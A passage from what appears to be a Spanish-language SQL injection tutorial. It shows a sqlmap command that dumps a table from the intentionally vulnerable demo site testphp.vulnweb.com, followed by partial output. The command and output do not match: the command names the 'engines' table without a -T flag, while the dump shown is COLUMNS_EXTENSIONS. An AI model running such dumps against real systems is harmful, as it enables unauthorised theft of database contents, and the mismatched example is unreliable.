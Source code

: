         | CHECK_OPTION       | varchar(8) |

        | COLLATION_CONNECTION | varchar(32) |

        | DEFINER            | varchar(77) |

        | IS_UPDATABLE       | varchar(3) |

        | SECURITY_TYPE      | varchar(7) |

        | TABLE_CATALOG      | varchar(512) |

        | TABLE_NAME         | varchar(64) |

        | TABLE_SCHEMA       | varchar(64) |

        | VIEW_DEFINITION        | longtext |
        + ------------------- + ----------------- +
        ```

    4. Acceder a información de una tabla

        De manera similar, podemos acceder a toda la información en una tabla específica usando el siguiente comando, donde `--dump` recupera todos los datos de la tabla engines:

        ```bash
        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D information_schema engines --dump
        ```

        Con la ejecución del comando anterior, podemos obtener información sobre la tabla engines. Esta es una salida parcial:

        ```bash
        Database: information_schema
        Table: COLUMNS_EXTENSIONS
        [765 entries]
        +--------------------+---------------------------------------+---------------+-----------------------------------+--------------------+------------------------------+
        | TABLE_SCHEMA       | TABLE_NAME                            | TABLE_CATALOG | COLUMN_NAME                       | ENGINE_ATTRIBUTE   | SECONDARY_ENGINE_ATTRIBUTE   |
        +--------------------+---------------------------------------+---------------+-----------------------------------+--------------------+------------------------------+
        [10:45:10] [WARNING] console output will be trimmed to last 256 rows due to large table size
        | information_schema | PROCESSLIST                           | def           | COMMAND                           | NULL               | NULL                         |
        | information_schema | PROCESSLIST                           | def           | TIME                              | NULL               | NULL                         |
        | information_schema | PROCESSLIST                           | def           | STATE                             | NULL               | NULL                         |
        | information_schema | PROCESSLIST                           | def           | INFO                              | NULL               | NULL                         |
        | information_schema | PROFILING                             | def           | QUERY_ID                          | NULL               | NULL                         |
        | information_schema | PROFILING                             | def           | SEQ                               | NULL               | NULL                         |
        | information_schema | PROFILING                             | def           | STATE                             | NULL               | NULL                         |
        | information_schema | PROFILING                             | def           | DURATION                          | NULL               | NULL                         |
        | information_schema | PROFILING                             | def           | CPU_USER                          | NULL               | NULL                         |
        ...
        ```	

